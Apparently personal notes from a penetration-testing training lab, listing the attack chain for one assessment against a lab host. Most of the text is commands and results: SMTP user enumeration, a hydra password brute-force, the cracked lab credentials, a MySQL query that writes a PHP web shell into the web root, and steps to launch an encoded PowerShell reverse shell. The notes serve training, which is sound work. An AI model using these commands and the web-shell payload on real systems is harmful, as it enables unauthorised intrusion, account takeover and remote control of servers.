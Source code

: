 TODOS:
- Attacking Common Services
- Footprinting
- Pivoting, Tunneling, and Port Forwarding
- AD
- AD Bloodhound


marlin:poohbear
marlin@inlanefreight.htb 

# Assessment 1

*Command:* smtp-user-enum -M RCPT -U users.list -t $TARGET -D inlanefreight.htb -p 587
*Result*: 10.129.95.172: **fiona@inlanefreight.htb** exists

*Command:* hydra -l 'fiona@inlanefreight.htb' -P /usr/share/wordlists/rockyou.txt -f $TARGET smtp -v -I
*Result*: login: fiona@inlanefreight.htb   password: 987654321
fiona:987654321

*Command:* 
1. mysql -h $TARGET -u fiona -p'987654321'
2. select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php';
3. http://10.129.203.7/back.php?c=whoami
4. Start listener
5. http://10.129.203.7/back.php?c=powershell [enconded shell from here](https://www.revshells.com/)
